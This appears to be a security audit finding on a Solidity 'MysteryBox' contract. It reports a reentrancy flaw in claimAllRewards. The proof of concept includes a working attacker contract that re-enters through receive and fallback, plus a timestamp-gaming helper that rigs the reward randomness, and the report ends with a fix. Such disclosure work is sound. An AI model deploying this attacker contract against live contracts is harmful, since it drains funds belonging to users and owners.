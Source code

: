 ### Reentrancy attack in `MysteryBox::claimAllRewards` allows User/Player with non zero value reward to drain contract balance

## Summary
The `MysteryBox::claimAllRewards` function does not adhere to the [CEI/FREI-PI](https://www.nascent.xyz/idea/youre-writing-require-statements-wrong) principle, which allows any user with a non-zero reward to drain the contract balance. This occurs because the function updates the `rewardsOwned` array only after making an external call to `msg.sender`.

## Vulnerability Details
In the `claimAllRewards` function, the contract first performs an external call to the user's address before updating their reward status. This can lead to reentrancy attacks, allowing users to exploit this vulnerability to claim rewards multiple times.

```Solidity
function claimAllRewards() public {
    uint256 totalValue = 0;
    for (uint256 i = 0; i < rewardsOwned[msg.sender].length; i++) {
        totalValue += rewardsOwned[msg.sender][i].value;
    }
    require(totalValue > 0, "No rewards to claim");

    (bool success,) = payable(msg.sender).call{value: totalValue}("");
    require(success, "Transfer failed");

    delete rewardsOwned[msg.sender];
}
```

A malicious user could implement a `fallback` or `receive` function that calls `claimAllRewards` again, continuously draining the contract until its balance is depleted.

### Proof of Concept

1. Users purchase boxes.
2. An attacker sets up a contract with a `fallback` function that calls `MysteryBox::claimAllRewards`.
3. The attacker buys a box, opens it, and receives a non-zero reward. The `MysteryBox::openBox` function can be manipulated to guarantee this reward.
4. The attacker calls `MysteryBox::claimAllRewards` from their contract, draining the contract balance.

### Proof of Code

Add the following code to the `TestMysteryBoxTest.t.sol` file within the `MysteryBoxTest` contract:

```Solidity
// @notice Function to calculate which block timestamp to open a box on to guarantee a non-zero value reward
// @param addr: address to get the reward
function calculateWinTimestampValue(address addr) public view returns (uint256) {
    uint256 value;
    uint256 winTime = block.timestamp;
            
    do {
        winTime++;
        value = uint256(keccak256(abi.encodePacked(winTime, addr))) % 100;            
    } while (value < 95);

    return winTime;
}

function testReentrancyClaimAllRewards() public {
    ReentrancyAttackerClaimAllRewards attacker = new ReentrancyAttackerClaimAllRewards(address(mysteryBox));
    uint256 boxPrice = mysteryBox.boxPrice(); 
    vm.deal(address(attacker), boxPrice);
    uint256 winningTimestamp = calculateWinTimestampValue(address(attacker));
    vm.warp(winningTimestamp);
    uint256 startingContractBalance = address(mysteryBox).balance;
    attacker.attack(); 

    uint256 endingAttackerBalance = address(attacker).balance;
    uint256 endingContractBalance = address(mysteryBox).balance;
    uint256 rewardValue = attacker.rewardValue(); 

    uint256 totalMysteryBoxValue = startingContractBalance + boxPrice;
    uint256 numberOfDuplicates = totalMysteryBoxValue / rewardValue;
    uint256 totalWithdrawnToAttacker = rewardValue * numberOfDuplicates;

    assertEq(endingAttackerBalance, totalWithdrawnToAttacker);
    assertEq(endingContractBalance, totalMysteryBoxValue - totalWithdrawnToAttacker);
}
```

Add the following code to the `TestMysteryBoxTest.t.sol` file:

```Solidity
contract ReentrancyAttackerClaimAllRewards {
    MysteryBox public mysteryBox;
    uint256 public boxPrice;
    uint256 public rewardValue;
    
    constructor (address _mysteryBox) {
        mysteryBox = MysteryBox(_mysteryBox);
        boxPrice = mysteryBox.boxPrice();
    }

    function attack() external payable { 
        mysteryBox.buyBox{value: boxPrice}();
        mysteryBox.openBox();  
        rewardValue = mysteryBox.getRewards()[0].value;         
        mysteryBox.claimAllRewards();
    }

    receive() external payable {
        if (address(mysteryBox).balance > rewardValue) {
            mysteryBox.claimAllRewards();
        }        
    }

    fallback() external payable {
        if (address(mysteryBox).balance > rewardValue) {
            mysteryBox.claimAllRewards();
        }        
    }
}
```
## Impact
This vulnerability allows a user to drain the contract balance entirely, leading to a loss of funds for the contract owner and other users.

## Tools Used
- VSCodium
- Slither

## Recommendations
To prevent this vulnerability, the `MysteryBox::claimAllRewards` function should update the `rewardsOwned` array before making any external calls, as shown below:

```diff
function claimAllRewards() public {
    uint256 totalValue = 0;
    for (uint256 i = 0; i < rewardsOwned[msg.sender].length; i++) {
        totalValue += rewardsOwned[msg.sender][i].value;
    }
    require(totalValue > 0, "No rewards to claim");

+   delete rewardsOwned[msg.sender];
    (bool success,) = payable(msg.sender).call{value: totalValue}("");
    require(success, "Transfer failed");

-   delete rewardsOwned[msg.sender];
}
```